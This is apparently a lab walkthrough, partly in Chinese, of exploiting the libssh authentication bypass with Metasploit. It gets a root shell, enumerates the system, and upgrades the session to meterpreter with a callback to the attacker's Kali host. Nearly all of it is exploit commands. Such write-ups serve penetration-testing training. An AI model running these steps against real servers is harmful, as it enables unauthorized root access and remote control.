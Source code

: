 该模块利用 libssh 服务器代码中的身份验证绕过，其中发送 USERAUTH_SUCCESS 消息代替预期的 USERAUTH_REQUEST 消息。libssh 版本 0.6.0 到 0.7.5 和 0.8.0 到 0.8.3 容易受到攻击。请注意，此模块的成功取决于服务器代码是否可以触发正确的 (shell/exec) 回调，尽管只设置了状态机的身份验证状态。因此，如果服务器需要遵循额外的代码路径，您可能会或可能不会获得 shell。

```
search libssh_auth_bypass
use auxiliary/scanner/ssh/libssh_auth_bypass
show options
```

The option that we want to set is the `SPAWN_PTY` option, which will allow us to spawn a terminal session. 

```
set SPAWN_PTY true
run
```

List out our sessions.

So we've successfully been able to exploit the SSH server, and we get a shell session on the target system.

```
sessions 1
```

Enumerate the user that we currently are.

```
whoami
```

We are root. So we currently have administrative privileges on the target system.

Enumerate the distribution release version.

```
cat /etc/*release
```

Enumerate the kernel version.

```
uname -r
```

The next step will involve the process of upgrading our command shell or our shell session into a meterpreter session, which we can do first and foremost by putting this current session in the background using the keyboard combination `Ctrl+z`.

We can then search for the post exploitation module `shell_to_meterpreter`. This will help us upgrade our shell session into a meterpreter session.

We then need to set the LHOST option, which is going to be the Kali Linux IP. Set LHOST to the ethernet1 IP address or the ethernet1 interface IP address.

```
use post/multi/manage/shell_to_meterpreter
show options
set LHOST eth1
set SESSION 1
run
```
